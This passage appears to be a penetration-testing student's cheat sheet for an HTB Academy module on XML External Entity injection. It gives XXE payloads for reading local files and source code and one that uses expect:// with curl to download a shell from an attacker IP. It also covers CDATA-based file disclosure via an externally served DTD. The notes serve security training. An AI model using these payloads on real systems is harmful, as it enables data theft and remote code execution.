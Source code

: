 With this technique we can abuse APIs too and retrieve information that is hidden for us at first glance, we can even change user details or whatever.

### XXE External Entity (XXE) Injection (Just CPTS)
**[Basic Information](https://academy.hackthebox.com/module/134/section/1203)**

**[Local File Disclosure (Reading files)](https://academy.hackthebox.com/module/134/section/1204)**
* Reading Sensitive Files:
```xml
<!DOCTYPE email [
    <!ENTITY company SYSTEM "file://index.php">
]>
----
<email>
    &company;
</email>
```

* Reading Source Code:
```xml
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
----
<email>
    &company;
</email>
```

* Remote Code Execution: (With python server to publish our shell)
```xml
<!DOCTYPE email [
    <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
----
<email>
    &company;
</email>
```

**[Advanced File Disclosure (If simple Local File Disclosure doesn't work)](https://academy.hackthebox.com/module/134/section/1206)**
We need to establish the following:
```bash
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
]>

<!ENTITY joined "%begin;%file;%end;">
```

So create a dtd file with the joined variable and setup a python server:
```bash
peluqqi@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
peluqqi@htb[/htb]$ python3 -m http.server 8000
```
